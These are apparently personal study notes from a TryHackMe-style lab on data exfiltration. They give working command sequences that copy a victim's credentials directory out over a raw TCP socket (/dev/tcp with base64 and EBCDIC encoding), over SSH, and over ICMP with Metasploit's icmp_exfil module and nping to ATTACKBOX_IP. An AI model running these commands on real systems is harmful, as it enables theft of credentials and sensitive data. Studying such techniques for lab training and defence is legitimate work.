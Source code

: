 ```yaml
---
layout: notes
permalink: /notes/network/exfil/
title: Data Exfiltration Techniques
---
```


# Data Exfiltration Techniques
Data Exfiltration is the process of taking an unauthorized copy of sensitive data and moving it from the inside of an organization's network to the outside.

## Scenario:
```
JumpBox -> Victim1 (where files located) -> JumpBox
Filename on Victim1: /home/victim1/credentials/admin.txt
```
## via TCP Socket
![TCP](/assets/images/TCP.png)
```bash
#Prepare listener
thm@jump-box$ nc -lvp 8080 > /tmp/secrets.data

#Connect to Victim from JumpBox and find files to be exfiltrated
thm@jump-box$ ssh thm@victim1.thm.com
thm@victim1$ cat /home/victim1/credentials/admin.txt

#Exfiltrate data over TCP from victim machine,  make sure the listener is running on the JumpBox.
thm@victim1:$ tar zcf - /home/victim1/credentials/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080

#Confirm files transfered successfully
thm@jump-box$ ls -l /tmp/

#Restore the tar file
thm@jump-box$ cd /tmp/
thm@jump-box:/tmp/$ dd conv=ascii if=secrets.data |base64 -d > creds.tar
thm@jump-box:/tmp/$ tar xvf creds.tar
thm@jump-box:/tmp/$ cat credentials/admin.txt
```

## via SSH
![SSH](/assets/images/SSH.png)
```bash
#Check SSH service on JumpBox
thm@jump-box$ systemctl status ssh (enabled)

#Connect to Victim and send the files
thm@jump-box$ ssh thm@victim1.thm.com
thm@victim1:$ tar cf - /home/victim1/credentials/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"

#Confirm the files transfered successfully
thm@jump-box$ ls -l /tmp
```

## via ICMP
![ICMP](/assets/images/ICMP.png)
```bash
#Configure Metasploit
msfconsole -q
msf5 > use auxiliary/server/icmp_exfil
msf5 auxiliary(server/icmp_exfil) > set BPF_FILTER icmp and not src ATTACKBOX_IP
msf5 auxiliary(server/icmp_exfil) > set INTERFACE eth0
msf5 auxiliary(server/icmp_exfil) > run

#Send BOF trigger from the victim machine, to start Metasploit writing to the disk
thm@jump-box$ ssh thm@victim1.thm.com
sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "BOFfile.txt"

#Start sending data
sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "admin:password"
sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "admin2:password2"
sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "EOF"
```

## via Websites
[Checkout the LOTS Project](https://lots-project.com/)